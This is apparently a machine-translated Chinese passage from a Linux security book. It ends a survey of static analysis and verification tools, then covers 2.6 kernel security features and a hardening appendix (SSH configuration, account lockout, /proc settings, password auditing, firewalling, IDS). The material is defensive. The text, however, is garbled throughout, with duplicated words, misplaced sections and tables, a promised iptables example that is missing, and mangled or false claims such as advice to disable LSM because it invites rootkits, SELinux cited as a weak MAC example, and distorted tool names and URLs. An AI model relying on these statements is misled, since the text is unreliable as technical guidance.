代码中的所有操作都会经过运行时错误检查，并根据错误的严重程度进行染色。如果在重复操作条件时会发生错误，该操作显示为红色。如果 `PolySpace Verifier` 能够证明不会发生错误，该操作显示为绿色。如果 `PolySpace Verifier` 无法证明存在运行时错误，或者错误仅在某些特定的调用上下文中发生，该操作显示为橙色。在 `C` 语言中，`PolySpace Verifier` 检测到的错误包括：访问未初始化数据、数组越界、溢出/下溢、危险类型转换、延迟解引用指针、除以零和其他算术错误，以及共享数据的访问冲突。在 `C++` 中，`PolySpace Verifier` 还会检测与对象编程和继承相关的动态错误，以及与异常处理相关的错误。

### Astree

`Astree` 是一种基于抽象解释 (`http://www.astree.ens.fr/`) 的学术工具，由 `Cousot & Cousot ENS` 团队开发。其设计目的是尽可能减少误报，这只能通过在特定领域内将分析器强适配目标程序来实现。`Astree` 的领域已应用于空客 `A340` 和 `A380` 飞机的飞行控制软件中。

### Frama-C

`Frama-C` (`http://frama-c.cea/`) 是一个开源工具箱，结合了多种静态分析技术并应用于 `C` 语言。它由 `CEA`（法国核能局）的研究中心在欧洲 `OPENTC FP6 IST` 项目 (`http://www.opentc.net/`) 期间开发并使用，用于分析 `C` 虚拟器的部分代码。它的优势在于一种非常适用于抽象解释和霍尔逻辑（Hoare Logics）技术的内存模型。目前，它结合了通过抽象解释获得的结果，除了 `Coverity` 之外，还分析了通用操作系统，因为这些是非常复杂的应用程序，被认为重要性低于嵌入式应用。

### Coverity

`Coverity` (`http://www.coverity.com/`) 是一种基于 `Dawson Engler` 方法的大型代码库源码分析工具。它基于抽象解释和模型检查的混合来提取特定属性。该工具的扩展版本支持 `Metal` 语言中的用户定义属性。该工具速度快、详尽且误报少，但可能非常昂贵。

## 基于霍尔逻辑的工具

由于霍尔逻辑比抽象解释（AI）技术要老得多，已有许多工具被设计、实现并投入实践。

### Caveat

`Caveat` 是一种用于 `C` 语言的纯静态分析工具，专注于嵌入应用。`Caveat` (`http://www-list.cea.fr/labos/gb/LSL/caveat/index.html`) 由 `CEA`（法国核能局）的研究中心开发。它包含谓词语言、一个 VC 生成器和一个用于消除它们的证明工具。对于每个函数，该工具根据前置条件和后置条件计算最弱前置（weakest precondition）。霍尔方法的优势在于给出此类错误发生可能的精确结果。缺点是，有时需要手动提供循环不变性以及假设和额外信息，以尝试证明错误是否存在。这使得该过程具有交互性，但允许你理解错误的根源。空客工业公司使用了 `Caveat`。

### Caduceus

`Caduceus` (`http://tohy.li.fr/caduceus/`) 是在巴黎 11 大学 `LRI` 实验室开发的学术工具。它基于霍尔方法，并提供将将生成的证明义务发送给自动定理证明器（`Simplify` 或 `CVS Lite`）、证明检查器（`Coq`）或半自动定理证明器（`PVS`），每种工具对所分析的程序都有不同程度的适应性。事实上，由霍尔方法生成的属性反映了程序的执行行为，而在证明所有属性时，给定的证明器可能不是效率最高的（例如，某些证明器可能擅长某些算术属性，而对其他属性则不适用）。

### KlocWork

该工具 (`http://klocwork.com/`) 由俄罗斯科学院开发，包含多个用于 `C` 语言的动态和静态分析模块。它使用霍尔逻辑并支持静态错误检测，并增加了项目管理和可视化功能。`KlocWork` 速度快，与 `Coverity` 一样彻底，且成本较低。用户定义检查的功能尚待开发。

## 基于模型检查的工具

微软研究院开发的 `SLAM` 工具 (`http://research.microsoft.com/slam/`) 已成功用于验证设备驱动程序。

`BLAST` 工具由瑞士洛联邦理工学院（EPFL）、加州大学圣地亚哥分校和洛杉矶分校以及西蒙·弗雷大学开发 (`http://mtc.epfl.ch/software-tools/blast/`) 对底层系统代码提供了良好的结果。

这两个工具都使用谓词抽象技术将 `C` 程序属性的验证简化为以下子问题：

- 使用自动定理证明领域的现有技术和工具自动寻找简单定理的证明
- 验证有限系统的可访问属性，这些技术在模型检查领域经过了多年的完善

## 参考文献

`D. M. Ritchie` et al., `The C Programming Language`, 2nd Ed., `Prentice-Hall, Inc.`, 1988.

## 规范语言

`J. R. Abrial`, `The B Book: Assigning Programs to Meanings`, `Cambridge University Press`, 2005.

`G. Berry` et al., `The ESTEREL Synchronous Programming Language: Design, Semantics, Implementation`, `INRIA Research Report RR0080`, 1981.

`E. Emerson`, “Temporal and Modal Logic,” in `J. van Leeuwen` (ed.), `Handbook of Theoretical Computer Science`, vol. B., `MIT Press`, 1990, 955–1072.

`J. Goguen`, `Software Engineering with OBJ`, `Kluwer Academic Publisher`, 2000.

`D. Harel` et al., “Executable Object Modeling with STATECHARTS,” `IEEE Computer`, 1997, 31–42.

`Z. Manna`, “The Temporal Logic of Programs,” `Proc. 18th IEEE Symposium on Foundation of Computer Science`, 1977, 46–57.

`R. Milner`, `Communication and Concurrency`, `Prentice-Hall`, 1989.

`A. Puccetti`, `Preuve de propriétés de fatalité Ada, sémantique opérationnelle et axiomatique`, Ph.D. dissertation, `Institut National Polytechnique de Lorraine`, Nancy, 1987.

## 第 17 章

# 攻防 Linux：Linux 安全秘密与解决方案

随着 `2.6` 内核的发布，Linux 内核发生了巨大的变化。许多非常有价值的变化是新增或改进的安全特性。虽然我们无法在本章中对这些内容进行全面介绍，但我们涵盖了我们认为最重要的几个领域：

- Linux 安全模块 (`LSM`)
- `CryptoAPI`
- `NetFilter` 增强
- 增强的无线堆栈
- 文件系统增强

## LINUX 安全模块 (LINUX SECURITY MODULES)

Linux 安全模块 (`LSM`) 功能是一个标准化框架，允许内核通过一个作为外部安全机制的可加载模块来检查访问请求和调用。这使得访问控制从标准且非常基础的 UNIX 访问转变为更复杂且具有潜在安全性的自主访问控制 (`DAC`) 或强制性访问控制 (`MAC`) 模型。相比之下，`DAC` 的一个弱示例是标准的 NIX 访问控制，而 `MAC` 的一个弱示例是 `SELinux`。目前，Linux 发行版中提供的选项通常是 `SELinux` 或 `AppArmor`。

如果你没有专门使用 `LSM`，请确保禁用它，因为它为根内核程序（rootkits）引入系统提供了一个很好的途径。遗憾的是，这可能意味着你需要重新编译内核，因为发行版似乎默认启用了此功能。

如果你在寻找更高的安全性，还应该审查 `GRSecurity` 和基于规则的访问控制 (`RSBAC`)。

## CryptoAPI

新的 `CryptoAPI` 为 Linux 内核提供了三个主要增强，即：

- 基于内核的 `IPsec`
- 设备映射加密目标
- 未来的加密扩展性

`IPsec` 是身份验证和加密协议的集合，旨在扩展 `IP` 并为上层流量提供安全性。在之前的 Linux 版本中，`IPsec` 是通过安装 `FreeS/WAN`（现在为 `StrongSwan` 或 `Openswan`）等软件提供的。在 `2.6` 内核中包含此功能代表了一项重大增强，使 Linux 与提供“开箱即用”能力的其他操作系统并肩。

下一项增强是内核中的设备映射基础设施。这需要高于 `2.6.4` 的内核版本。它在块设备上提供了一个更清晰、更完整的虚拟层，可用于条带化、镜像、快照等。通过 `dm-crypt` 设备映射目标 (`dm-crypt`)，你可以使用新的 `CryptoAPI` 进行透明加密/解密。基本上，用户可以指定对称密码、密钥和 IV 生成模式，并创建一个新的块设备 `/dev`。任何写入都将被加密，任何读取将被解密。你可以像正常一样挂载该设备，但没有密钥就无法访问它。密钥可以在“设备驱动程序 1 多设备支持 (RAID 和 LVM)”下找到。你使用名为 `dmsetup` 和 `cryptsetup` 的用户空间工具来创建、删除、重载和查询块设备。这些工具提供了与 `cryptoop` 类似的功能，但通过更高效的代码和更好的用户界面实现。

最后，`CryptoAPI` 为 Linux 内核加密能力的未来增强开发奠定了坚实的基础，使其在这一领域与其它操作系统并肩。

## NETFILTER 增强

`NetFilter` 模块在 `2.6` 内核内部提供了数据包过滤框架。这通常被认为是 `IPTables`。`2.4 NetFilter` 组件中的许多缺陷已得到解决，包括：

- `Netfilter` 能够看到你主机上的桥接数据包。
- 与 `VoIP` 相关的连接跟踪的改进

## 增强的无线堆栈

`2.6` 内核中包含了一个新的无线堆栈，提供了完整的软件媒体访问控制 (`MAC`) 实现、有线等效隐私 (`WEP`) 和 `Wi-Fi` 保护访问 (`WPA`)，为无线连接提供更大的安全性。

## 文件系统增强

虽然文件系统领域有很多变化，但影响最大的可能是 POSIX 访问控制列表 (`ACL`) 和 `NFS` 版本 4。

## POSIX 访问控制列表

`2.6` 内核的另一项重大增强是增加了 POSIX `ACL` 或访问控制列表，改进了传统的、基于所有人、组和用户的读、写、执行权限的基于 UNIX 的文件安全和权限模型。这种权限模型相当有限，且缺乏灵活性和功能，无法真正确保宿主机上的真实文件安全。

访问控制列表 (`ACL`) 对该模型提供了显著增强，并允许你对文件和对象进行更细粒度的访问控制，类似于 Microsoft Windows 系统所提供的方式。这允许你在许多情况下引入基于角色的访问控制 (`RBAC`)，从而确保只有需要访问特定文件和资源的用户和组才能获得访问权限。

## NFSv4

`NFSv4` 的引入改进了 `NFS` 以提高安全性。安全框架允许 `NFSv4` 在客户端和服务器之间提供身份验证、完整性和隐私机制。客户端还能够查询服务器的安全策略，以确定访问时必须使用哪些机制。这种带内的安全协商允许客户端安全地将服务器的安全策略与满足客户端和服务器要求的机制进行匹配。

## 额外的内核资源

Linux 内核文档非常详尽，这些文档可以在线免费访问。

## 在线手册页 (Man Pages)

内核手册页是一个很好的资源，并提供...

## 附录 A：管理与维护



**图 A-1** `Wireshark` 显示了未加密网络连接的内容。

- 参与通信的每个客户端和服务器都可以被识别。这使得攻击者想要伪造身份变得非常复杂，甚至是不可能的。
- 传输的数据经过完整性检查，防止了对发送数据进行意外修改。

`HTTPS` 是实现此处概述的加密措施的常用协议。所有数据都通过 `SSL` 进行加密，服务器和客户端可以通过 `x.509` 证书进行识别。虽然客户端并不强制拥有证书，但服务器需要拥有一个。如果服务器证书被认为无效，网络浏览器会报错。

与明文对应的版本相比，使用加密安全的协议时需要更多资源，因为它们涉及数学计算。幸运的是，如今的硬件使得这种缺点几乎无法被察觉，因此没有正理由不部署加密服务。

大多数协议都允许明文和加密变体（`HTTP` 与 `HTTPS`）。因此，你需要采取特定的应对措施来避免用户无意中使用明文变体（以 `HTTP` 为例，可以配置服务器仅接受 `HTTPS` 连接）。

## 防御暴力破解

获取系统访问权限的一种常见攻击是对用户名和密码进行暴力破解。防御此类攻击最有前景的方法是完全放弃密码，并将身份验证方法切换为其他对此类攻击抵抗力更强的可用认证技术（例如，公钥或智能认证）。功能和设置说明取决于具体的技术。使用公钥认证的一种流行服务是 `SSH`（`ssh-keygen` 页面包含了设置说明）。

## 暴力破解攻击

暴力破解旨在通过尝试大量的可能性来绕过安全防护措施。例如，通过尝试每种可能的字符和数字组合直到获得访问权限，从而绕过密码。在用户使用弱密码的情况下，这种攻击可能特别成功。选择包含额外字符和数字的长密码可以增加成功执行暴力破解所需的复杂度。

字典攻击与此非常相似。如其名所示，这种攻击使用字典来绕过密码保护。如果选择的密码包含在字典中，这种攻击就会成功。一个流行的例子是使用一个包含名字的字典，来检查用户是否仅使用名字作为密码。

## 拒绝所有，特定允许

在节点上配置服务时，适当的策略是通常拒绝所有内容，仅允许特定需要的项。例如，允许用户登录的 `OpenSSH` 配置选项。表 A-1 显示了可以应用到 `sshd_config` 的某些配置选项。这些设置涵盖了以下决策：

- 是否允许 root 用户登录？
- 是否允许任何人使用空密码登录？
- 是否允许任何人使用密码登录？
- 是否允许某些用户或组登录？

如果只使用公钥认证，为什么不在服务配置中完全禁用密码认证呢？如果只有特定用户需要对节点进行 SSH 访问，为什么不只在服务配置中专门允许他们进入呢？在最佳实践设置中，应该做出此类考虑并将其应用到服务配置中。

当然，“拒绝所有，特定允许”策略不仅适用于节点配置——它也是防火墙和其他配置任务中非常重要的一部分。

“拒绝所有，特定允许”的反面是“允许所有，特定拒绝”。这种配置方法也会使用，但不被推荐，因为它总是面临无意中忘记拒绝某些可能不需要内容的风险。

## 一次性密码

在保护系统时，必须考虑用户/或管理员的登录位置。如果必须从外部计算机登录（例如，在网吧），则应该采取特殊的应对措施。由于一切都不受你的控制，这些计算机通常需要被视为不可信的。没有简单的方法可以评估是否存在捕获输入凭据的病毒、蠕虫或键盘记录器。

这种这种情况的解决方案是部署一次性密码设施进行身份验证。Linux 可以此类系统进行扩展，其中流行的是 `S/Key`。但通常情况下，在允许从不可信计算机登录之前，需要经过仔细考虑。只有在业务需求证明合理的情况下才允许他们。

| 选项 | 描述 |
|---|---|
| `PermitRootLogin` | 设置为 no 以防止以 root 登录。这使得始终以普通用户账户登录并使用 sudo 来获取 root 权限。 |
| `PermitEmptyPasswords` | 不允许未设置密码的用户账户登录。 |
| `PasswordAuthentication` | 完全不允许使用密码登录。常见的做法是只允许通过公钥进行远程登录。这降低了成为暴力破解攻击害者的风险。更多信息请参见 `ssh-keygen` 的 man page。 |
| `AllowGroups` | 仅允许特定组的成员远程登录。 |
| `AllowUsers` | 仅允许特定用户远程登录。 |

表 A-1 `OpenSSH` 在 `sshd_config` 中的示例选项

## 自动化扫描技术

许多在机器人中实现的自动化扫描技术可以感染未安全的操作系统。它们会自动扫描整个或特定的互联网 IP 地址范围，以寻找漏洞的服务版本或通过暴力破解登录凭据来访问服务。本附录已经提到了一些防御暴力破解的方法。另一条防线是禁用服务版本信息的暴露并在非标准端口运行服务。这两种技术都让侦察变得更加困难。这虽然不是成熟的安全措施，但它是让系统对自动化（且仅此类）扫描变得相对简单的方法。

## 失败次数过多锁定

针对某些自动化攻击的另一种应对措施是在超过特定数量失败尝试时锁定访问。由于此类措施仅旨在锁定攻击者，当然你仍然需要其他防线。

Linux 可以通过 `pam_tally` 模块在一定次数失败登录尝试后锁定用户账户。这允许对所有依赖 `PAM` 的服务实现此类限制。因此，这仅影响系统的身份验证库。

另一种方法是在网络层面拒绝访问。`denyhosts` 是此类应用程序的一个示例。它解析 `sshd` 日志并在 `/etc/hosts.deny` 添加相应的条目，防止失败次数过高的主机再次连接到 SSH 守护进程。其他服务也存在此类工具，或者你可以相对容易地自己实现。

不幸的是，这种锁定有两个缺点：总有可能意外锁定自己。而且对于在网络层拦截访问的方法，如果合法用户需要从动态 IP 地址连接（大多数互联网提供商提供的），你可能会遇到问题。你需要考虑某些局限性。

在网络层面阻止服务的更通用方法是在数据过滤器中实现。以下列表显示了一个使用 `iptables` 的示例，它是 Linux `2.4` 和 `2.6` 中 `NetFilter` 框架的标准数据过滤器管理工具，并带有 `recent` 匹配模块。该规则集允许来自特定主机每分钟仅四次连接。

## 附录 A：管理与维护

## 避免可加载内核模块功能

在现代 Linux 内核中，你可以通过加载内核模块来为运行中的系统增强额外功能。这一功能非常实用，因为它允许你在无需重启系统的情况下，根据需要增强或减少内核提供的功能。这对于工作站非常有意义，因为在工作站上相同的硬件或功能并不总是被使用或连接到计算机上。

每个具有足够权限的进程都可以将模块加载到内核。在标准的 Linux 安全模型中，需要 root 权限。通过加载内核模块，攻击者可以修改内核的工作方式。这将通过 rootkits（根内核程序）来实现以确保它们被隐藏。掌握检测这些工具的技术是非常困难的。

如今许多 Linux 发行版在默认内核中都开启了可加载内核模块。关闭内核中的可加载模块功能可以防止攻击者向内核中加载模块，从而增加了修改内核功能时需要绕过的安全屏障。因此，考虑安装一个不支持可加载模块的自定义内核。

如果无法重新编译内核，你可能需要检查能力（capabilities）功能，该功能自 Linux `2.2.11` 以来一直存在。如果关闭了 `CAP_SYS_MODULE` 能力，内核将不允许加载任何模块。`lcap` 是一个移除内核能力的方便工具。

## 强制密码策略

可以通过可插拔认证模块（PAMs）使用 `pam_cracklib` 模块来配置以执行策略。可以强制长度限制以及通过字典对密码进行检查。

通常，PAM 会通过 `/etc/pam.d` 下的配置文件进行配置。大多数 Linux 发行版包含该模块的示例条目，只需取消注释即可。

## 使用 sudo 执行系统管理任务

根据通用最佳实践，只有在真正需要时才请求 root 权限。因此，建议设置适当的 sudoers，允许系统管理员通过 `sudo` 以 root 权限执行单条命令（例如，`sudo /etc/init.d/apache restart`）。这样，管理员就可以方便地调用具有 root 权限的单条命令，增强系统管理员双角色（非特权和特权）的意识。

## 检查 IPv6 状态

`IPv6` 是下一代 Internet 协议，未来将取代 `IPv4`。大多数操作系统已经支持 `IPv6`，并默认默认启用了这一新协议。由于 `IPv6` 尚未广泛部署，你可能需要忽略这一点。

自动配置是 `IPv6` 的功能之一。启用 `IPv6` 的系统中的每个接口都将自动配置一个所谓的本地地址，允许与局域网网段中的其他主机通信。从图 A-2 中可以看到 `eth0` 配置了这样一个链路本地地址（link-local address）。这些地址位于 `fe80::` 前缀内，该前缀将使用前缀和以太卡的 MAC 地址构建。

同一局域网内的主机可以通过这些链路本地地址相互通信，即使没有配置 `IPv6`。由于访问控制通常是为 `IPv4` 和 `IPv6` 地址族独立配置的，如果考虑到系统上 `IPv6` 的状态，可能会存在漏洞。

## 验证已启用守护进程的合理性

服务器设置中一个非常重要的元素是避免不必要的守护进程（daemons）。每个负责的守护进程都会增加攻击者发现漏洞进入系统的机会。因此，需要仔细考虑活动进程和监听端口。OSSTMM 包含一个“业务合理性”的概念——只有在符合系统业务需求时才启用某服务。

第一步是检查运行中的进程，可以使用 `ps` 命令完成。使用该命令可以查看并论证所有运行的守护进程。但仅仅检查进程列表是不够的，因为像 `xinetd` 或 `inetd` 这样的守护进程能够按启动服务。因此，使用 `netstat` 检查接受连接的网络套接字并好处。使用 `netstat` 命令的 `-p` 选项可以显示使用特定端口的进程，或使用 `fuser`（来自 `psmisc` 软件包）进行手动查找。这里有一个简短的示例：

```bash


# host # `netstat --tcp --listening -n -p`

Active Internet connections (only servers)

Proto Recv-Q Send-Q Local Address      Foreign Address      State       PID/Program name

tcp 0 0 0.0.0.0               0.0.0.0:*      LISTEN      3447/portmap

tcp 0 0 0.0.0.0:631           0.0.0.0:*      LISTEN      3249/cupsd

tcp 0 0 0.0.0.0:632           0.0.0.0:*      LISTEN      3249/cupsd

tcp 0 0 127.0.0.1:25        0.0.0.0:*      LISTEN      3614/master

tcp 0 0 ::22                  *:*           LISTEN      3321/sshd

```
host # fuser -n tcp 631

631/tcp:                      3249
```

当然，你需要检查监听所有协议的端口以验证当前系统状态的合理性。这通常涉及检查 TCP 和 UDP 端口。

```bash
root@host:~/root

host:# ip address show dev eth0

2: eth0:<BROADCAST,MULTICAST> mtu 1500 qdisc pififo_fast qlen 1000

    link/ether 00:16:3e:4e:2b:a2 brd ff:ff:ff:ff:ff:ff

    inet 192.168.1.10/24 scope global eth0

    inet6 fe80::201:63ff:fe4e:2ba2/64 scope link eth0
```

图 A-2 IPv6 地址

## 设置挂载与文件系统选项

| 选项 | 效果 |
| :--- | :--- |
| noatime | 禁用 atime；提高性能。 |
| noexec | 禁用执行文件。 |
| nosuid | 忽略文件的 suid 位。 |
| nodev | 禁用设备节点。 |

## 攻击暴露：Linux 秘密与解决方案

另一个重要任务是为文件系统设置正确的选项。对于 ext2 和 ext3 文件系统可以通过 `tune2fs` 工具完成。两个重要的设置是 `reserved-blocks-percentage` 和 `reserved-block-count`。这些选项允许为 root 用户保留文件系统的一部分。

```bash
# tune2fs -m 5 /dev/sda1

tune2fs 1.39 (29-May-2006)

Setting reserved blocks percentage to 5% (196608 blocks)

host ~ # tune2fs -l /dev/sda1 | grep Reserved

Reserved block count: 196608

Reserved uid: 0 (user root)

Reserved gid: 0 (group root)
```

防止特权用户填满文件系统是有意义的，因为文件系统可能会导致守护进程无法正常工作。假设 `/var/log` 与 `/` 在同一个文件系统上。如果非特权用户向 `tmp` 大文件占用剩余空间会怎样？

## 通过 /proc 加固系统

`/proc` 文件系统是 Linux 内核的接口。它允许你配置影响组件行为的各种参数。通常，调整与网络相关的参数是一个好主意。在大多数发行版中，你可以通过 `sysctl` 命令和 `/etc/sysctl` 配置文件来实现。表 A-3 显示了一些示例。

## 密码

密码是网络节点整体安全的关键因素。即使执行了正确的密码策略，定期检查密码安全性也无害。这听起来很容易，但在实践中，必须绕过操作系统存储密码的哈希函数。例如，Linux 系统上的 `/etc/shadow` 文件仅包含加密字符串，而不是真实的密码：

```bash
root:$TNTGJ0$9CdbiQCIB5N.azq35V0::13860:
```


使用哈希函数存储密码。这是不可逆的。每当用户输入密码时，都会计算哈希并与存储的哈希值进行比较。这使得对它们进行暴力破解变得非常困难。

要检查 `/etc/shadow` 中密码的强度，你可以使用一些专用工具，如 `John the Ripper`。这些工具会为字典中的每个单词生成密码哈希。

| 文件 | 值 | 操作 |
|---|---|---|
| `sys/net/ipv4/icmp_echo_ignore_all` | 0/1 | 忽略所有发往系统的 ICMP 回显请求。实际上并不会增加安全性，但可以隐藏系统免受某些扫描尝试。还会防止网络连接测试。 |
| `sys/net/ipv4/icmp_echo_ignore_broadcasts` | 0/1 | 忽略指向多播和广播地址的 ICMP 回显请求。通常情况下，忽略这些请求是一个好主意，可以防止系统参与 DDoS 攻击。 |
| `sys/net/ipv4/conf/*/accept_source_route` | 0/1 | 接受 IP 数据包中的源选项。不接受这些通常不是一个好主意。 |
| `sys/net/ipv4/conf/*/rp_filter` | 0/1 | 如果启用了 `rp_filter`，对数据包的响应需要通过原始数据包到达的接口发送。这对于多网卡主机有用，可以防止 IP 欺骗。 |
| `sys/net/ipv4/conf/*/accept_redirects` | 0/1 | 接受 ICMP 重定向。通常情况下，禁用此功能是一个好主意。管理良好的网络不需要 ICMP 重定向。 |
| `sys/net/ipv4/ip_forward` | 0/1 | 启用网络接口之间 IP 数据包的转发。通常情况下，只有作为路由器或防火墙的机器应该启用此功能。 |
| `sys/net/ipv4/tcp_syncookies` | 0/1 | 通过 Syn-Cookie 机制防止 Syn 洪水攻击导致的 DoS 攻击。 |

**表 A-3** 重要的 `/proc` 设置

字典并尝试将其与系统密码文件中存储的值进行匹配。它们还从 `/etc/passwd` 文件中收集有关用户的可用信息（注释等），并将其用于密码组合。

## 硬件健康状况

现代硬件设备内置了传感器，可以使用这些传感器来读取温度传感器和风扇速度。这些传感器可以检测系统是否过热或风扇是否损坏。Linux 上读取内置传感器的标准套件是 `lm-sensors` 包。如果配置得当，该应用程序可以监控各种硬件参数，例如电压电平和风扇速度。该包包含一个用于显示当前值的命令行应用程序和一个在后台运行并在发生任何故障时发出警告的守护进程。

此外，你还可以通过 SMART 检查硬盘健康状况。SMART 是大多数 IDE (PATA)、SCSI 或 SATA 硬盘上实现的一种标准，允许访问磁盘内置的缺陷管理。有时，通过监控相应的 SMART 值和错误日志，你可以在错误危及系统稳定性之前检测到它们。要访问这些值，不需要任何特殊的内核配置。`smarttools` 包包含通过访问设备节点查询这些值的应用程序：`smartctl` 可用于自检并立即获取 SMART 属性，而 `smartd` 可以在后台启动以监控磁盘健康，并在出现问题时发送通知。

## 检查日志文件

日志文件是系统的内存。许多事件会被记录，通过仔细观察日志可以检测到系统错误或配置错误。由于手动检查所有日志文件容易出错，因此该过程应该是自动化的。目前有多种解决方案，如 `Logwatch`、`Logcheck` 或 `LogSurfer`，它们能够总结事件并通过邮件发送给系统管理员。

## 网络环境设置的最佳实践

节点设置的考虑因素只是硬币的一面。安全性还取决于网络环境。本节展示了用于安全网络环境的一些最佳实践方法和决策。

## 入站和出站过滤

通常，网络放置在防火墙后面，防火墙控制允许的入站（进入）和出站（出去）流量。防火墙通常也位于不同的网络段之间（例如在不同的 LAN 段或不同的 DMZ 之间）。最佳实践建议在防火墙上强制某些流量过滤规则。开发和记录这些规则在图 A-3 所示的示例网络中得到了演示。



图 A-3 示例网络

在图 A-3 中，防火墙将 DMZ 和办公室 LAN 连接到互联网。在开发流量过滤规则时，需要定义不同系统的目的和用例：

- `server1` 作为 Web 服务器。
- `server2` 作为邮件服务器（通过 SMTP 接收和发送电子邮件）。
- 办公室 LAN 也允许使用上述描述的服务，并允许对 `server1` 和 `server2` 进行远程登录，以及通过 POP3 从 `server2` 获取邮件。
- `server1` 和 `server2` 允许通过网络协议 (NTP) 同步其系统时钟。
- 办公室 LAN 允许访问托管在互联网任何服务器上的网页。
- 这些用例可以用于定义流量矩阵，如表 A-4 所示。

需要注意的一点是，流量矩阵包含了入站（进入）和出站（出去）流量。通常会忘记出站过滤部分。当主机被成功攻击或被病毒感染时，建立出站流量过滤的显著优势就会变得明显。出站过滤使得攻击者更难将拥有的主机作为进一步攻击的源，因为它们不允许建立无限制的出站连接。

定义的流量矩阵可以作为文档，并用于设置流量过滤规则。Linux 通过 NetFilter 框架内置了包过滤功能，使得使用 Linux 计算机作为防火墙成为可能。`iptables` 命令用于操作流量过滤规则，是管理 NetFilter 框架的标准工具。此外，你可以使用任何工具来管理。

## 构建网络分段和基于主机的防火墙

在网络设计中划分网段并使用基于主机的防火墙是非常重要的。这种方法可以限制攻击的范围，即使一个网段被攻破，攻击者也难以移动到其他网段。你可以在每台主机上配置 `iptables` 规则来控制其进出流量。

为了进一步增强安全性，可以在不同的网段之间部署多个防火墙。例如，在 DMZ 和内部网络之间设置一个防火墙。这样可以根据不同区域的安全需求实施更精细的过滤策略。

基于主机的防火墙还可以提供额外的防御层。即使网络防火墙被绕过，主机上的防火墙也能阻止未经的访问。

## 执行时间同步

在分布式系统中，同步时间至关重要。这对于日志分析、安全审计以及某些应用程序的运行是必要的。网络时间协议 (NTP) 是一种广泛使用的解决方案。在 Linux 上，你可以使用 `ntp` 或 `chrony` 软件包来同步时间。

## 关注邮件列表

订阅供应商或产品的公告列表可以帮助跟上最新的安全动态。此外，你还可以订阅一些独立的邮件列表，如 SecurityFocus 或 Full-Disclosure。当然，仅仅关注邮件列表是不够的——还需要应用安全补丁。

# 破解 Linux Linux：Linux 安全秘密与解决方案



| 系统 | 当前: | 平均值: | 最大值: |
|---|---|---|---|
| | 2.91 | 25.28 | 50.78 |
| 用户 | 168.61 m | 17.33 | 36.39 |
| Nice | 24.10 | 20.84 | 50.90 |
| 总计 | 27.18 | 63.45 | 96.36 |

**图 A-4** CPU 负载监控

# 使用 VPN 进行远程管理

最佳实践建议不要向互联网开放远程访问守护进程。攻击者可以使用远程访问守护进程对用户名或密码进行暴力破解，或利用它们进行漏洞攻击。由于 `ssh` 等守护进程需要以增强权限运行以验证用户凭据，如果这些守护进程存在漏洞，将带来更大的风险。因此，我们建议不要允许开放远程访问，并将 VPN 连接作为访问服务的根本性要求。OpenVPN 是一个开源解决方案，你可以轻松地使用它建立 VPN，并且它可以运行在不同的操作系统上。Linux 也可以通过 FreeSwan 和 Openswan 实现 IPsec，这是一种 RFC 标准化的 VPN 解决方案。

# 额外的有用工具

到目前为止，本附录讨论了一些用于增加系统安全和实施多线防御的常见预防措施。由于系统在攻击面前绝不可能是 100% 安全的，现在我们将讨论帮助系统管理员发现攻击的工具。

# 入侵检测系统

发现攻击的一种种有用工具是入侵检测系统 (IDS)。基本上，IDS 有两种类型：网络入侵检测系统 (NIDS) 和主机入侵检测系统 (HIDS)。前者用于监控网络流量

# 附录 A：管理与维护

对于已知攻击的迹象，后者可用于检测主机上的操纵。

一个 NIDS 基本上由一个管理控制台和一个或多个传感器组成。传感器可以放置在网络的交叉路口上，以监控和评估通过的流量。由于流量将与攻击参考数据库进行比对，因此该数据库需要定期更新。两种流行的开源 IDS 解决方案是 Prelude-IDS 和 Snort。

